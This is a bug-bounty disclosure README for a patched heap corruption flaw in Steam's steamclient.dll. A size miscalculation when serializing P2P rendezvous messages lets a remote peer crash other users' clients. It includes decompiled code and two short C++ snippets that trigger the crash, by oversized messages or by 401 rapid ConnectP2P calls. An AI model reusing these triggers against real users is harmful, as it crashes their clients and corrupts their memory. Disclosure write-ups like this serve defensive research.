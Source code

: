 # CrashSteamUser
**PoC Code for Steam Bug Bounty, Allowing P2P Connections to Crash Clients, submitted to Valve's bug bounty program under "#1276762
Improper memory buffer size calculation causes heap corruption in steamclient.dll CMsgSteamNetworkingP2PRendezvous signal parse"**

*Valve Quickly Responded to, and Patched this bug within a month of initial reporting. Funds were awarded under their bug bounty program. HackerOne disclosure deadline has elapsed, allowing for the discussion of this bug*

## Technical Background 

Valve provides native P2P networking capabilities within [Steam GameNetworkingSockets](https://github.com/ValveSoftware/GameNetworkingSockets), avaliable for use to game developers through the [Steamworks API](https://partner.steamgames.com/doc/sdk).

To begin a P2P session, GameNetworkingSockets generates a CMsgSteamNetworkingP2PRendezvous protobuf message in [SetRendezvousCommonFieldsAndSetSignals](https://github.com/ValveSoftware/GameNetworkingSockets/blob/d5f855967440eeb5b4d5798bebe179ef868ac6af/src/steamnetworkingsockets/clientlib/steamnetworkingsockets_p2p.cpp#LL1599C34-L1599C72). This message is then transmitted to the targeted client, who will then initiate a worker thread for a CClientJobConnectionInfo message, containing the Rendezvous found within a CMsgClientP2PConnectionInfo message.

## The Bug

The following disassembled representation of a function within steamclient.dll: 
```C
    nByteSize = CalculateByteSize(&P2PRendezvous);
    nSizeReturn = nByteSize;
    nSizeOfAllocedMemory = 8208;
    if ( nByteSize > 8192 )
    {
      nSizeOfAllocedMemory = 16400 - nByteSize; //nSizeOfAllocedMemory now becomes very small
    }
    allocedMemory = (*(int (__stdcall **)(int))(*g_pMemAllocSteam + 12))(nSizeOfAllocedMemory); // malloc
    v17 = *(_DWORD *)(ContainsappID + 24);
    *(_DWORD *)(allocedMemory + 4) = *(_DWORD *)(ContainsappID + 28);
    *(_DWORD *)allocedMemory = v17;
    *(_DWORD *)(allocedMemory + 8) = v30;
    *(_DWORD *)(allocedMemory + 12) = nSizeReturn;
    SerializeMessage(&P2PRendezvous, (_BYTE *)(allocedMemory + 16));
```

A improper calculation occurs in steamclient.dll. When a Rendezvous message is received, it is deseralized and placed within a CMsgClientP2PConnectionInfo protobuf. When calling into the signal parser, it is then seralized to an allocated memory buffer. 

The byte size of the total message is calculated and used to allocate a buffer of appropriate size. However, the value is checked to be greater than 8192 bytes,if it is found to be so, the new allocated memory size is set to 16400 - the total size. 

This causes any messages larger than 8192 to allocate a buffer of insuffecient size. ` (16400 - 16 /*hdr*/) - 8193 = 8191`, leading to heap corruption. 

In order to trigger this bug, reliable messages were appended in PoC code to fill the message size to greater than 8192 bytes.

```C++    
CMsgSteamNetworkingP2PRendezvous* pMsg = reinterpret_cast<CMsgSteamNetworkingP2PRendezvous*>(msg);
while (pMsg->ByteSize() < 8192)
{
    pMsg->add_reliable_messages();
}
 ```
 
Additionally, due to the nature of SetRendezvousCommonFieldsAndSendSignal automatically adding reliable messages that haven't been ack'd to the message (m_vecUnackedOutboundMessages), simply rapidly calling ISteamNetworkingSockets::ConnectP2P in rapid succession is enough to trigger the bug

The following code worked every attempt:

```C++
for (int i = 0; i < 401; i++)
{
	hConn[i] = Globals::g_pSteamNetworkingSockets->ConnectP2P(VictimNetworkingIdentity, i, 0, 0);
}
```



## Video Presentation
 [![Proof Of Concept video](https://img.youtube.com/vi/huNZtW7w9p8/0.jpg)](https://www.youtube.com/watch?v=huNZtW7w9p8)
